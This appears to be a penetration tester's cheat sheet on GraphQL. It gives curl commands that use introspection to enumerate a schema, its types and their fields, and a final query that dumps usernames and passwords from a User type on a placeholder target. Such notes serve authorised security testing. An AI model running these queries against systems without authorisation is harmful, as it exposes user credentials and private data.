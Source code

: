 ```yaml
---
title: "Graphql"
date: 2024-7-9
tags: ["Database Dumping", "Privilege Escalation In Databases", "Graphql", "Database"]
---
```


### Visualize Tool

```console
+---------------------------------------------------------------+
| 1. Change Schema -> Introspection -> Copy Introspection Query |
| 2. Paste query                                                |
| 3. Display                                                    |
+---------------------------------------------------------------+
```

<small>*Ref: [graphql-voyager](https://graphql-kit.com/graphql-voyager/)*</small>

### General

```console
# Get fields from schema
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{queryType{name,fields{name,description}}}}"}' | jq .
```

```console
# Get types name
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{types{name}}}"}' | jq .
```

```console
# Get fields of type (e.g. User)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__type(name:\"User\"){name,fields{name}}}"}' | jq .
```

```console
# Dump data from type (e.g. User type with fields username and password)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{User{username,password}}"}' | jq .
```
